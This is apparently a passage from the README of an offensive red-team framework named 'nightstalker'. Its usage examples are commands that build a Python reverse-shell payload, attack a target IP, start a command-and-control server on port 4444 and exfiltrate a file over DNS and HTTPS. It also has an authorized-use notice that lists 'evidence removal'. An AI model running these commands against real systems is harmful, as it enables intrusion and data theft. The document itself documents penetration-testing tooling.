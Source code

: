 ## 🎯 Usage Examples

### Interactive Mode
```bash
# Start interactive mode
./nightstalker.sh

# Navigate through menus
# 1. Payloads
# 2. Stealth Server
# 3. Stealth Payload Builder
# 4. Red Team Operations
# 5. Web Red Teaming
# 6. C2 Operations
```

### Command-Line Mode
```bash
# Build a payload
./nightstalker.sh payload build --type reverse_shell --format python

# Run reconnaissance
./nightstalker.sh redteam exploit --target 192.168.1.100 --type web

# Start C2 server
./nightstalker.sh c2 server --host 0.0.0.0 --port 4444

# Exfiltrate data
./nightstalker.sh exfil --data sensitive.txt --channels dns https
```

## 🔒 Security Considerations

### Legal Compliance
- **Authorized Use Only**: Framework designed for authorized security research
- **Penetration Testing**: Intended for legitimate penetration testing activities
- **Compliance**: Adheres to relevant security testing standards
- **Documentation**: Comprehensive usage documentation and warnings

### Ethical Guidelines
- **Responsible Disclosure**: Proper vulnerability disclosure procedures
- **Consent**: Explicit consent required for all testing activities
- **Documentation**: Comprehensive documentation of all activities
- **Cleanup**: Proper cleanup and evidence removal procedures

## 📈 Performance Improvements

### 1. Speed Optimizations
- **Parallel Processing**: Multi-threaded operations where appropriate
- **Caching**: Intelligent caching of results and configurations
- **Resource Management**: Efficient resource utilization
- **Timeout Handling**: Proper timeout and retry mechanisms
